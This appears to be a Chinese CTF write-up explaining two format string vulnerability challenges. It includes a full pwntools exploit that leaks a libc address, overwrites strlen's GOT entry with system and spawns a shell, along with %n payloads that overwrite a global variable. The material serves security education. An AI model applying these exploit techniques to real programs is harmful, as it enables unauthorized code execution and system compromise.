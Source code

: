 ## 0x001 程序分析

使用IDA分析程序

![](1.png)

程序流程很简单，就是在一个while循环中，read函数接收输入，sprintf函数拼接字符串，strlen函数判断拼接后的字符串长度不能大于0x10E，printf打印拼接后的字符串。

## 0x002 漏洞分析

该程序由于对printf函数的使用错误，因此存在格式化字符串漏洞。

## 0x003 漏洞利用

由于程序没有提供system函数，因此需要先利用漏洞获取libc地址。

首先通过输入判断偏移为8

![](2.png)

之后可以利用 **%8$s** 打印puts函数的真实地址。
```
payload = b"%9$saaaa" + p64(elf.got["puts"])
p.recvuntil("Please tell me:")
p.sendline(payload)
```

这里说明一下，为什么判断出来的偏移是8，后面payload中的偏移要写9呢？因为x64系统下的地址中肯定有 **'\x00'** 存在，为了防止被 **'\x00'** 截断，要将输出内容的地址放在格式化字符串的后面，因此会存在偏移，并且还需要将格式化字符串填充满8位。

![](3.png)

这样就可以打印出puts函数的真实地址，然后通过计算获取system函数的真实地址。

最后需要将strlen函数的真实地址修改为system函数的真实地址。
```
strlen_got = elf.got["strlen"]
payload = fmtstr_payload(8, {strlen_got: system_addr}, numbwritten=9, write_size='byte')
p.recvuntil("Please tell me:")
p.sendline(payload)
```

此时，在使用pwntools库中的fmtstr_payload时，就不需要修改偏移了，利用之前获取的偏移量即可。（在使用fmtstr_payload时，默认是x32，需要修改为x64）

最终exp如下：
```
context(arch='amd64', os='linux', log_level='debug')

payload = b"%9$saaaa" + p64(elf.got["puts"])
p.recvuntil("Please tell me:")
p.sendline(payload)

p.recvuntil("Repeater:")
puts_real_addr = u64(p.recv(6).ljust(8, b'\x00'))

libcbase = puts_real_addr - libc.symbols["puts"]
system_addr = libcbase + libc.symbols["system"]

strlen_got = elf.got["strlen"]
payload = fmtstr_payload(8, {strlen_got: system_addr}, numbwritten=9, write_size='byte')
p.recvuntil("Please tell me:")
p.sendline(payload)

p.recvuntil("Please tell me:")
p.sendline(";/bin/sh")

p.interactive()
```

## 0x004 另一道题

另一道格式化字符串漏洞的题型

![](4.png)

该题也很简单，通过格式化字符串漏洞，修改全局变量judge=2即可获取系统权限。

还是先来判断下偏移量

![](5.png)

可以看到，在先输出一个字符的前提下，偏移量为8。那么此时可构造payload如下：
```
payload = b"BB%9$naaa" + p64(0x60105c)
```

此时的栈情况如下：

![](6.png)

也可以利用fmtstr_payload构造payload
```
payload = b"B" + fmtstr_payload(8, {0x60105c: 2}, numbwritten=1)
```

其中第一个B为已经输出的字符，因此需要将numbwritten设置为1，表示已经输出了一个字符，偏移量为8。两种方式都可以成功修改内存，完成利用。